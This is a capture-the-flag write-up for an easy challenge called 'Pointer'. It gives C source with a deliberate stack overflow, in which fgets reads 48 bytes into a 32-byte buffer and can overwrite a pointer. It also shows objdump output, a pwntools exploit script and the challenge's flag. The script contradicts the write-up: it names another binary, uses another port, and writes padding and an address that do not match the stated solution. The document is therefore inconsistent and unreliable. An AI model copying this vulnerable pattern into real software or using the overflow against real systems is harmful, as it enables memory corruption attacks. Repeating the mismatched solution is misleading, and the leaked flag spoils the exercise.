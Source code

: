 # Pointer

Difficulty Level: Easy
 
Got one of these pointers that point. Point it in the right direction
 
Connect via `nc challenge.ctf-fun.xyz 14006`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints
- Use `objdump -t ./pointer` to show the memory location of the function
you can filter the results by piping it to `grep`
- change target to point to flag


## Deployment

```bash
cd service
sudo ./pointer.sh &
```

## Solution
Looking at the source code, we see that target can be overwritten from buffer.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char flag[64];
char *password = "Int3rest1ng";
char *success = "Password accepted. Welcome.";
char *failure = "Intruder detected! Get him!";

int main(int argc, char** argv) {
	char* target;
	char buffer[32] = {0x00};
	FILE *f;

	setvbuf(stdin,NULL,2,0);
	setvbuf(stdout,NULL,2,0);
	setvbuf(stderr,NULL,2,0);

	// Set up flag
	f = fopen("flag.txt","r");
	if (f == NULL) {
		printf("Flag File is Missing.\n");
		exit(0);
	}
	fgets(flag,sizeof(flag),f);

	printf("[HELPER] target is located at %p and buffer is located at %p\n\n", &target, &buffer);

	target = failure;
	printf("Welcome to my secret base. What's the password?\n");
	fgets(buffer, 0x30, stdin);

	if (strcmp(buffer, password) == 0) {
		target = success;
	}

	printf("%s\n", target);
}
```
At the end of the code we see that target is being printed. Thus in order to print the flag we will overwrite target to the location of flag.
```c
printf("%s\n", target);
```

Use `objdump -t ./pointer` or `info variables` in `gdb` to find out where flag is located then overwrite target to flag (0x0804c060)

```bash
$ objdump -t pointer | grep flag
0804c060 g     O .bss	00000040              flag
```

```python
from pwn import *
def main():
    #io = process("./beefyvariable")
    io = remote("challenge.ctf-fun.xyz", 14005)
    payload = b"A" * 64 + p32(0xdeadbeef)
    io.sendline(payload)
    io.interactive()
if __name__ == '__main__':
    main()
```

### Flag
19C4{Th3_fl4g_w4s_1h3_P@ssw0rd}
